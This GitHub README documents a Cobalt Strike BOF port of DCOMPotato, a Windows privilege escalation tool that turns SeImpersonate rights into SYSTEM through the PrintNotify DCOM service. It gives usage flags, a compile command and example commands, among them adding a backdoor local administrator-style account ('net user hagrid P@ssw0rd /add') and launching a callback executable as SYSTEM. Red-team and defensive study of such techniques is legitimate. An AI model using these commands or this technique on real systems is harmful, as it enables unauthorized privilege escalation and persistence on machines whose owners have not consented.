 # BOF - DCOMPotato

BOF version of [DCOMPotato](https://github.com/zcgonvh/DCOMPotato). Obtain SYSTEM privilege with `SeImpersonate` privilege by passing a malicious `IUnknwon` object to DCOM call of PrintNotify.

By default, [ImpersonationLevel](https://learn.microsoft.com/en-us/windows/win32/com/com-impersonation-level-constants) of PrintNotify service, which was run as SYSTEM, set as `RPC_C_IMP_LEVEL_IMPERSONATE` 

````
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\print
````



### Usage

```
--pprog : program to launch. Default cmd.exe
--pargs : command line argument to pass to program. Default NULL
--pmode : create process call. 1 for CreateProcessWithTokenW. 2 for CreateProcessAsUser. Default 1
```

execute command with `CreateProcessWithTokenW`

```
DCOMPotato --pargs /c whoami /all > C:\temp\whoami.txt
```

execute command with `CreateProcessAsUser`

```
DCOMPotato --pargs /c net user hagrid P@ssw0rd /add --pmode 2
```

execute program with  `CreateProcessWithTokenW`

```
DCOMPotato --pprog C:\temp\callback.exe
```



### Compile

```
cl /c /GS- /FoDCOMPotato.x64.o /TP DCOMPotato.cpp
```



### Take Away

- You cannot create new object with C++ in Cobalt Strike when loading BOF. You can use struct to implement COM in C instead. Here is a [guide](https://www.codeproject.com/Articles/13601/COM-in-plain-C)
- `=` sign could be overloaded. It was overloaded as `IsEqualGUID` in my case
- Using flag `LOGON_TYPE_NEW_CREDENTIALS` can create a token that can be used for impersonate from `LogonUser`
- According to the [document](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera), a process that calls `CreateProcessAsUser` require `SE_INCREASE_QUOTA_NAME` and `SE_ASSIGNPRIMARYTOKEN_NAME` privilege.



### References

+ [DCOMPotato](https://github.com/zcgonvh/DCOMPotato)
+ https://github.com/rapid7/metasploit-framework/blob/master/external/source/exploits/ntapphelpcachecontrol/exploit/CaptureImpersonationToken.cpp
+ https://www.codeproject.com/Articles/13601/COM-in-plain-C



